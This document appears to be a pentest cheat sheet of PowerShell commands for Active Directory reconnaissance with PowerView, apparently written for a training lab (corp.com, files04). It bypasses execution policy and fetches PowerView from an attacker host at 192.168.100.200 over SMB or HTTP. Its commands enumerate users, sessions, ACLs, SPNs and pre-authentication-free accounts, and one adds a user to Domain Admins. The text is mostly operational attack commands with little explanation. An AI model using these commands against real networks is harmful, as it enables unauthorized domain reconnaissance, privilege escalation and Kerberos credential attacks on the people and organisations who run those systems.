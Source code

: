 ```powershell
powershell -ep bypass
```

```powershell
net use z: \\192.168.100.200\exfil kali /user:kali
copy z:\PowerView.ps1 C:\ProgramData\
cd C:\ProgramData
Import-Module C:\ProgramData\PowerView.ps1
```
OR
```powershell
iwr -uri http://192.168.100.200/PowerView.ps1 -Outfile C:/ProgramData/PowerView.ps1
cd C:\ProgramData
Import-Module C:\ProgramData\PowerView.ps1
```

Domain Information (same as GetCurrentDomain)
```powershell
Get-NetDomain
```

All Users in domain
```powershell
Get-NetUser
```

Getting all users with password last changed and last logon time
```powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```

Enumerate groups and filter by common name
```powershell
Get-NetGroup | select cn
```

Enumerate a property from a specified object
```powershell
Get-NetGroup "Domain Admins" | select member
```

Enumerate Computer objects in domain
```powershell
Get-NetComputer
```

Enumerating computer objects by hostname, OS and OS version
```powershell
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

Scan domain to find local administrative privileges for current user
```powershell
Find-LocalAdminAccess
```

Check for logged on users
```powershell
Get-NetSession -ComputerName files04 -Verbose
```

View permissions on DefaultSecurity registry hive
```powershell
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

Enumerating Logged on users using PsLoggedon.exe (SysInternals suite)
```powershell
.\PsLoggedon.exe \\files04
```
>Might not work because it relies on Remote Registry service to be enabled

List Service Principal Name (SPN) accounts in domain
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

Can resolve SPNs that are hosting a web server via nslookup (eg. `HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80`)
```powershell
nslookup.exe web04.corp.com
```
> Will give you the IP address where it is being served on

Enumerate Access Control Entities
```powershell
Get-ObjectAcl -Identity admin
```

Convert SIDs into names
```powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

Enumerating ACE of user/group and filtering by AD rights, displaying Security Identifier and Active Directory Rights
```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Output can be translated by Convert-SidToName
```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

Add user to domain group
```powershell
net group "Domain Admins" user /add /domain
```
> Can double check the result with Get-NetGroup

Find available shares in the domain
```powershell
Find-DomainShare
```

Display only shares available to current user in the domain
```powershell
Find-DomainShare -CheckShareAccess
```

Enumerate users that do not require Kerberos pre-authentication
```powershell
Get-DomainUser -PreauthNotRequired
```




